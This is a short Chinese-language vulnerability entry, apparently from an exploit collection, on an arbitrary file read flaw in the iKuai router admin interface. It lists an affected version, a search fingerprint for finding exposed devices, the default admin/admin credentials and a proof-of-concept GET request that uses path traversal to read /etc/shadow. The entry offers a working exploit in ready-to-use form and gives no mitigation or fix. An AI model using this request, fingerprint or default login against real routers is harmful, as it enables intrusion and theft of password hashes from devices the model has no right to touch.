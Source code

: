 # iKuai 后台任意文件读取漏洞

## 漏洞描述

参考链接：

- https://forum.ywhack.com/thread-115307-1-8.html

## 漏洞影响

影响版本，不一定是绝对版本，也可能其它版本都存在：

```
3.2.8 x64 Build201910101758
```

## 网络测绘

```
title="登录爱快流控路由"
```

## 漏洞复现

默认用户名/密码：admin/admin

poc：

```
GET /Action/download?filename=../../../../../../etc/shadow HTTP/1.1
Host：
....
```





